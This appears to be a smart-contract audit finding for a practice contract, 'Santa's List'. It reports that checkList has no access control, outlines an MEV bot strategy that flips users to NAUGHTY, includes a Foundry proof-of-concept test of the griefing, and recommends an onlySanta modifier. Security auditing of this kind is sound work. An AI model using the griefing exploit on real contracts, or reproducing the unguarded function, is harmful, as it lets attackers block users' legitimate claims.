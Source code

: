 ## Summary

Bots can change `SantasList::Status` of the user to `NAUGTY` immediately after Santa sets status of the user to `NICE`, thus making users ineligible for claiming presents.

## Vulnerability Details

Function `checkList(address person, Status status)` has no access control, so anybody can change users status. 

```javascript
* Only callable by santa

 function checkList(address person, Status status) @> external {
        s_theListCheckedOnce[person] = status;
        emit CheckedOnce(person, status);
    }
```

## Impact

As coming from comments `checkList()` should be callable only by Santa, which is not the case. 

```javascript
 @>     function checkList(address person, Status status)  external {
    s_theListCheckedOnce[person] = status;
        emit CheckedOnce(person, status);
    }
```
An attacker can use a bot that will

- Wait for Santa to change the status of a user to eligible, e.g., NICE or EXTRA_NICE
- Immideately send following transaction to change status back to NAUGHTY
- User transactions for claiming his presents will revert
- Any further attempts to change back the `Status` by non-sophisticated players will be backrunned by bot

```javascript
  function test_MEVgriefing() public {
    vm.startPrank(santa);
    santasList.checkList(user, SantasList.Status.EXTRA_NICE);
    santasList.checkTwice(user, SantasList.Status.EXTRA_NICE);
    vm.stopPrank();

    //Naughty Grinch's MEV bot sends transaction immediately after Santa
    vm.startPrank(grinch);
    santasList.checkList(user, SantasList.Status.NAUGHTY);
    vm.stopPrank();

    vm.startPrank(user);
    vm.expectRevert(); //user fails to claim presents
    santasList.collectPresent();
  }
```

Full test on [GitHub repo fork](https://github.com/algobotishere/2023-11-Santas-List/blob/98a91daf2046b728b8e7021526e7e9733f76e15f/test/unit/SantaHacks.t.sol#L98)

## Tools Used

Foundry

## Recommendations

Add access modifier

```javascript
 function checkList(address person, Status status)  external onlySanta {
      s_theListCheckedOnce[person] = status;
        emit CheckedOnce(person, status);
    }
```